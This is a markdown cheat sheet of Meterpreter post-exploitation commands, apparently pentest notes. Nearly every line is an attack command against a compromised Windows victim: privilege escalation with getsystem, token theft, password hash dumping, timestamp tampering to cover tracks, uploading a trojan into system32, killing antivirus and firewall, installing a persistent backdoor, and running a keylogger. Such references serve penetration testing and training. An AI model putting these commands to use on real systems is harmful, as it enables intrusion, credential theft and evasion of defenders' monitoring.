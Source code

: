 # Meterpreter

## Meterpreter Command

Showing running process and their associated user ids: `ps`

Privilege Escalation to Admin:`getsystem`

Show current user name: `getuid`

> `meterpreter >getuid`
>
> `Server username: NT AUTHORITY\SYSTEM`

Show current privileges: `getprivs`

Steal Admin: `steal_token [PID]`

Incognito \(Similar to `ps`\)

> `meterpreter >use incognito`
>
> `meterpreter >list_tokens -u`

Remove timestamps \(audit log\): `timestomp`

Migrate \(migrate to another process on the victim\): `meterpreter > run post/windows/manage/migrate`

hashdump: `meterpreter > run post/windows/gather/hashdump`

upload: `upload evil_trojan.exe c:\\windows\\system32`

## Useful Meterpreter Scripts

Checks to see if you exploited a virtual machine

> `meterpreter > run checkvm`

Checks the security configuration on the victims system and can disable other security measures such as A/V, Firewall, and much more

> `meterpreter > run getcountermeasure`

Enable RDP on a target system if it is disabled

> `meterpreter > run getgui`

The ‘get\_local\_subnets’ script is used to get the local subnet mask of a victim

> `meterpreter > run get_local_subnets`

The ‘gettelnet’ script is used to enable telnet on the victim if it is disabled.

> `meterpreter > run gettelnet -e`

The ‘killav’ script can be used to disable most antivirus programs running as a service on a target.

> `meterpreter > run killav`

The ‘remotewinenum’ script will enumerate system information through wmic on victim. Make note of where the logs are stored.

> `meterpreter > run remotewinenum -u [target username] -p [target pw] -t [target ip]`

The ‘winenum’ script makes for a very detailed windows enumeration tool. It dumps tokens, hashes and much more.

> `meterpreter > run winenum`

The ‘scraper’ script can grab even more system information, including the entire registry.

> `meterpreter > run scraper`

Creating a persistent backdoor on a target host.

> `meterpreter > run persistence`

This script will start the Meterpreter Keylogger and save all keys.

> `meterpreter > run keylogrecorder`

